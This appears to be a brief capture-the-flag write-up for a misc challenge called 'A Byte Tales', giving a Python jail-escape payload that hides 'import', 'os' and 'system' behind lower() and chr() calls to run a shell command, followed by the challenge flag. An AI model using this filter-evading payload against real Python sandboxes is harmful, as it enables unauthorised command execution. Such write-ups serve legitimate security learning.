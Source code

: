 ```yaml
---
icon: globe-pointer
description: Here are the write-ups for misc challenges that I solved during the competition
---
```

# A Byte Tales
## Solution

![](attachments/abytetales-exploited.png)

It's a basic pyjail escape. Here's the payload

```python
__builtins__.__dict__['__IMPORT__'.lower()](''.join([chr(111), chr(115)])).__dict__[''.join([chr(115), chr(121), chr(115), chr(116), chr(101), chr(109)])]('cat flag.txt')
```

Flag: SIBER25{St1ck_70_7h3_5toryl1n3!}
